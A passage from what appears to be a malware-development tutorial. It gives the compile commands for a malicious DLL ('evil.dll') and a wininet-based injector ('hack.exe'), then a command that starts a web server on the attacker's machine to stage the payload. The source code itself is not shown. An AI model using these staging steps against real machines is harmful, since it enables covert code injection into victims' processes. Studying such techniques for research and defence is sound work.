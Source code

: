 So finally after we understood entire code of the injector, we can test it.    

### demo

First of all, compile DLL:   

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![injection](/assets/images/50/2022-04-15_16-39.png){:class="img-responsive"}    

Then, compile injector:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -lwininet -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![injection](/assets/images/50/2022-04-15_16-42.png){:class="img-responsive"}    

Prepare simple web server on attacker's machine:    

```bash
python3 -m http.server 4444
```

![injection](/assets/images/50/2022-04-16_11-55.png){:class="img-responsive"}    
